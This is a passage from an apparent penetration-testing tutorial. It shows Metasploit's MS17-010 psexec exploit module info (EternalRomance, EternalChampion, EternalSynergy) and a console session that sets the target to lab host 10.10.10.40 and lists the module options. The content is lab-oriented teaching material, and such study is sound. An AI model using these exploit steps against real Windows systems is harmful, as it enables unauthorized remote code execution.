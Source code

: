 ```shell-session
Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to 
  achieve a write-what-where primitive. This will then be used to 
  overwrite the connection session information with as an 
  Administrator session. From there, the normal psexec payload code 
  execution is done. Exploits a type confusion between Transaction and 
  WriteAndX requests and a race condition in Transaction requests, as 
  seen in the EternalRomance, EternalChampion, and EternalSynergy 
  exploits. This exploit chain is more reliable than the EternalBlue 
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

After we are satisfied that the selected module is the right one for our purpose, we need to set some specifications to customize the module to use it successfully against our target host, such as setting the target (`RHOST` or `RHOSTS`).

**MSF - Target Specification**

&#x20; Modules

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
```